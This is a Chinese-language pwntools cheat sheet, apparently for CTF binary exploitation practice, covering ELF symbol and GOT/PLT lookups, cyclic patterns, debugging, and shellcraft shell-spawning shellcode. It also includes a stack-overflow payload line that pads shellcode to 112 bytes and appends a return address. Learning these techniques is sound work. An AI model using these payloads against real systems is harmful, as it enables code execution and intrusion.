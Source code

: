 关闭io

```py
io.close()
```

用户交互
```py
io.interactive()
```

首先先创建一个ELF对象，方便我们对齐数据进行查找
```py
elf = ELF('test')
```

输出一个sh的shellcode 汇编代码 默认是32位的shellcode
```py
shellcraft.sh()
```

输出一段sh的shellcode的机器码
```py
asm(shellcraft.sh())
```

输出一个sh的shellcode 汇编代码 amd64位的shellcode  记得加上64位环境说明 context.arch
```py
shellcraft.amd64.sh()
```

ljust是左对齐，shellcode后面用A来填充垃圾数据，一共形成112个字节的字节流
```py
payload = asm(shellcraft.sh()).ljust(112,b'A')+p32(buf_addr)
```

搜索一个字符串并返回其所在地址 python3里字符串前面必须加上b''，不然找的就是str对象,而不是字节数据
```py
hex(next(elf.search(b'/bin/sh')))
```

查看puts函数在got表中表项的地址
```py
hex(elf.got["puts"])
```

变量名和函数名本质上都是符号，下面是查找gets函数的plt表地址，got表地址和buf2变量的地址
```py
elf.plt['gets']
elf.got['gets']
elf.symbols['buf2']
```

生成60个字节的垃圾数据
```py
cyclic(60)
```

如果想在pwntools中某一位置在pwndbg中调试，可以在pwntools中的这一位置`pause()`,然后执行到这里的程序就被挂起到了进程，gdb进入，attach pid 就可以在pwndbg中进行调试
```py
pause()
```
